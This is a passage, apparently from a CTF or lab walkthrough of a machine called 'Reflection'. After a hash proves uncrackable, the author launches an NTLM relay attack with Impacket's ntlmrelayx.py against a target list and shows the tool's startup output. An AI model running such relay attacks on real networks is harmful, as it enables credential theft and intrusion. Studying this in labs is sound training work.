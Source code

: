 ![alt text](<../assets/images/Screenshot_2025-02-04_20_49_49.png>)

but unf its not crackable

okey if we can get ntml hash then we can try here ntlm attack 😉

### ntlmrelay attack

first of all im gonna put it at hosts.txt our targets

lets start our ntlmrelay

    ➜  Reflection ntlmrelayx.py -smb2support -tf hosts.txt -i
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Protocol Client SMB loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Running in relay mode to hosts in targetfile
    [*] Setting up SMB Server on port 445
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server on port 9389
    [*] Setting up RAW Server on port 6666
    [*] Multirelay enabled
